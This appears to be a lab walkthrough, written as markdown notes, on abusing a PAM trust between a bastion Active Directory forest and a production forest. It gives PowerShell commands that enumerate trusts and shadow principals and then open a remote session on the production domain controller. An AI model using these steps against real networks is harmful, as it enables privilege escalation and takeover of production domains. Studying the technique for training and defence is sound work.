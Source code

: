 # Cross Forest Attacks - Abusing PAM Trust

- [Cross Forest Attacks - Abusing PAM Trust](#cross-forest-attacks---abusing-pam-trust)
  - [PAM Trust](#pam-trust)
  - [Abusing PAM Trust](#abusing-pam-trust)

---

## PAM Trust

PAM trust is usually enabled between a **Bastion** or **Red forest** and a **production/user forest** which it manages.

PAM trust provides the ability to **access the production forest with high privileges without using credentials of the bastion forest**. Thus, better security for the bastion forest which is much desired.

To achieve the above, **Shadow Principals** are created in the bastion domain which are then **mapped to DA or EA groups SIDs in the production forest**.

Therefore, if the Bastion forest is compromised, the production forest will be compromised.

<br/>

We have DA access to the `techcorp.local` forest. By enumerating trusts and hunting for access, we can enumerate that we have Administrative access to the `bastion.local` forest.

<br/>

## Abusing PAM Trust

From `techcorp-dc`:

```
Get-ADTrust -Filter *

Get-ADObject -Filter {objectClass -eq "foreignSecurityPrincipal"} -Server bastion.local
```

<br/>

On `bastion-dc`, enumerate if there is a PAM trust:

```
$bastiondc = New-PSSession bastion-dc.bastion.local

Invoke-Command -ScriptBlock {Get-ADTrust -Filter {(ForestTransitive -eq $True) -and (SIDFilteringQuarantined -eq $False)}} -Session $bastiondc
```

<br/>

Check which users are members of the Shadow Principals:

```
Invoke-Command -ScriptBlock {Get-ADObject -SearchBase ("CN=Shadow Principal Configuration,CN=Services," + (Get-ADRootDSE).configurationNamingContext) -Filter * -Properties * | select Name,member,msDS-ShadowPrincipalSid | fl} -Session $bastiondc
```

<br/>

Establish a direct PSRemoting session on `bastion-dc` and access `production.local`:

```
Enter-PSSession 192.168.102.1 -Authentication NegotiateWithImplicitCredential
```

<br/>


